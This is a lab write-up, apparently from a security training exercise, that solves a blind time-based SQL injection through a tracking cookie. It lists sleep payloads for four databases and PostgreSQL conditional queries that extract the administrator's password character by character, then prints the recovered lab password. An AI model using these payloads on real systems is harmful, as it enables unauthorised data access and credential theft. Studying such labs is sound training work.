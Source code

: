 # Lab: Blind SQL injection with time delays and information retrieval
- lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie
- The database contains a different table called users, with columns called username and password
# Goal
- The database contains a different table called users, with columns called username and password
# Solving The Lab
- first thing is to check if the parameter is vulnurable we do that by checking with differnt db time delay function
```
' || (dbms_pipe.receive_message(('a'),10))--   Oracle
' || (WAITFOR DELAY '0:0:10')--                microsoft
' || (SELECT pg_sleep(10))--                   PostgreSQL
' || (SELECT SLEEP(10))--                      MySQL
```
- and the response is delayd on the third one so its postgresql
- now we have to build a query to make it for test like this
```
' || (select case when (1=0) then pg_sleep(10) else pg_sleep(0) end)--        No Delay
' || (select case when (1=1) then pg_sleep(10) else pg_sleep(0) end)--        Delay
```
- now check for users like administrator
```
' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--
```
- after we have done the previous steps we need to Enumerate the password length
```
' || (select case when (username='administrator' and LENGTH(password)>1) then pg_sleep(10) else pg_sleep(0) end from users)--
```
- we got dealy at one now automate the process using the intruder like rana khalil video
- and we got the lenght ofthe password which is 20
- lets go to enumrating the password itself
```
' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(0) end from users)--
```
- and automating the process using intruder we got the password
```
rkvoycn67djs58p4ni12
```
